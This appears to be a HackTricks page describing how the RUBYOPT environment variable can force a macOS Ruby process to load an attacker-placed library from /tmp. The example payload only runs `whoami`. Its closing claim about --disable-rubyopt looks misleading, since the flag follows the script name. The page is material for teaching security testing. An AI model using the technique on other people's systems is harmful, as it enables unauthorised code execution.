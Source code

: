 # macOS Ruby Applications Injection

{{#include /banners/hacktricks-training.md}}



## RUBYOPT

Using this env variable it's possible to **add new params** to **ruby** whenever it gets executed. Although the param **`-e`** cannot be used to specify ruby code to execute, it's possible to use the params **`-I`** and **`-r`** to add a new folder to the libraries to load path and then **specify a library to load**.

Create the library **`inject.rb`** in **`/tmp`**:

```ruby:inject.rb
puts `whoami`
```

Create anywahere a ruby script like:

```ruby:hello.rb
puts 'Hello, World!'
```

Then make an arbitrary ruby script load it with:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```

Fun fact, it works even with param **`--disable-rubyopt`**:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```

{{#include ../../../banners/hacktricks-training.md}}


